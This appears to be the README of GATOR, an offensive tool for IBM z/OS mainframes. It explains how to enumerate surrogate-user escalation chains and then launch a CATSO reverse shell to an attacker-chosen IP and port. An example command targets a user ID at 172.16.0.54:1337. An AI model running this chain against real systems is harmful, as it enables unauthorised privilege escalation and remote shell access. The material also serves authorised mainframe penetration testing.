 # GATOR
SURROGAT CHAIN

# GATOR
z/OS Mainframe Surrogat Tool:   
Run this from a user  
It will find all submit and su SURROGATs that user has access to  
It will then attempt to find the same from that user  
It will dump all the users found and the LU of that user   
In the HLQ.PATHS and HLQ.LUSERS respectively   
Once you have a list of paths you can run GATOR is CATSO mode  
Select a target, and a ip and port for reverse shell  
This will then run the reverse shell CATSO  

INSTRUCTIONS:  
/* GATOR.rexx NEEDS TO BE IN HLQ.GATOR */  
/* CATSO.rexx NEEDS TO BE IN HLQ.CATSO */  
/* PASS WITH NO PARAMATER OR HLQ TO SETUP */  
/* IF NO PARMS PASSED, HLQ IS GATOR */  

PARAMATERS:  
parse arg HLQ INS INS_ARGS  
/* EX 'GATOR.GATOR' 'GATOR'  
/* CHOOSE A TARGET IN THE HLQ.PATHS PDSE AND RUN FOLLOWING */  
/* EX 'GATOR.GATOR' 'GATOR CATSO PRIVA1,172.16.0.54,1337' */  


Example output is in the GATOR.LUSERS AND GATOR.PATHS ALREADY  
All the GATOR code is in GATOR.GATOR  
CATSO is from https://github.com/mainframed/TShOcker/blob/master/CATSO.rexx  


Uploaded to GIT with https://github.com/wizardofzos/zigi/ <3  
Can clone it onto your system  
